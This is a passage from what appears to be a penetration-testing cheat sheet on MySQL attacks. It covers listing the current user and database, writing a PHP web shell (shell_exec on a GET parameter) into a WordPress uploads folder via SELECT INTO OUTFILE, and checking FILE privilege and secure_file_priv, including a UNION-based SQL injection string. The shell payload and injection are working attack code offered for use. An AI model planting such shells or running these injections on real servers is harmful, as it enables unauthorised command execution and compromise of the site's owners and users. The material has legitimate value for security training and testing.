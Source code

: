 ```mysql
# Show current user
current_user()
user()

# Show current database
database()
```

## Command execution

### Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Another example: 

**To be able to write files to the back-end server using a MySQL database, we require three things:**

**1.** User with `FILE` privilege enabled. If our user is root:

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**2.**  MySQL global `secure_file_priv` variable not enabled

```sql
SHOW VARIABLES LIKE 'secure_file_priv';

# Final SQL query
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

# In an example of an UNION query attack:
# cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

```

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. However, `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings.

**3.**  Write access to the location we want to write to on the back-end server. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.
